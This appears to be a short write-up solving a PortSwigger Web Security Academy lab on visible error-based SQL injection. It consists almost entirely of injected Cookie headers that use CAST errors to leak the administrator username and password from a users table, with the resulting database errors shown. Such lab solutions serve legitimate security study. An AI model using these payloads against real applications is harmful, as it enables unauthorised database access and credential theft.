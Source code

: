 # Lab: Visible error-based SQL injection
# https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based

```bash
Cookie: TrackingId=ClSHU6wJ9ZEjamJH'
```
```bash
Cookie: TrackingId=ClSHU6wJ9ZEjamJH'and 1=CAST((SELECT 1) AS int)--;
```
```bash
Cookie: TrackingId=ClSHU6wJ9ZEjamJH'and 1=CAST((SELECT username from users) AS int)--;

# Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'ClSHU6wJ9ZEjamJH'and 1=CAST((SELECT username from users) AS '. Expected  char
```
```bash
#there is a character limit.
Cookie: TrackingId='and 1=CAST((SELECT username from users) AS int)--;

# ERROR: more than one row returned by a subquery used as an expression
```
```bash
Cookie: TrackingId='and 1=CAST((SELECT username from users LIMIT 1) AS int)--;

ERROR: invalid input syntax for type integer: "administrator"
```
```bash
Cookie: TrackingId='and 1=CAST((SELECT password from users LIMIT 1) AS int)--;

ERROR: invalid input syntax for type integer: "hyhb5ythcz2ypmhwxdjo"  
```
